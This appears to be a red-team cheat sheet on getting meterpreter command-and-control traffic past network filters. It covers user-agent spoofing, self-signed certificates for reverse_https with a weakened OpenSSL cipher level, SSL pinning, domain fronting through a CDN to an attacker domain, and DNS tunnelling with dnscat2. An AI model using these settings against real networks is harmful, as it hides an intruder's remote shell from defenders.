 ## Network filters

we can set user-agent in meterpreter:
``` bash
set HttpUserAgent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36"
```

Adding the certificate to the meterpreter/reverse_https
1. Generate self-signed cert with priv key:
``` bash
openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
```
2. Create key and cert in pem format:
``` bash
cat priv.key cert.crt > nasa.pem
```
3. Change the SSL options in /etc/ssl/openssl.cnf
``` bash
# Remove this:
CipherString=DEFAULT@SECLEVEL=2
# Add this:
CipherString=DEFAULT
```
then in multihandler:
``` bash
set HandlerSSLCert /home/kali/self_cert/nasa.pem
```

### SSL Pining on the meterpreter beacon

Set the following options when creating a payload to enable the SSL pinning:
```bash
StagerVerifySSLCert=true HandlerSSLCert=<path_to_pem>
```

### Domain Squatting with meterpreter

When generating the shellcode (exe in this case) we specify good domain in LHOST e.g. good.com behind the CDN to make the good DNS query, and in the HttpHostHeader we specify our CDN domain (malicous) which proxypass to our bad.com domain.
```bash
LHOST=good.com HttpHostHeader=cdn123bad.provider.com
```

### DNS Tunelling

Limited and slow, but since it is allowed everywhere we can use the dnscat2.
We must own the domain and set the NS record for that domain to point to our server. Then every subdomin queries will be forwarded to that name server we control.

https://github.com/iagox86/dnscat2


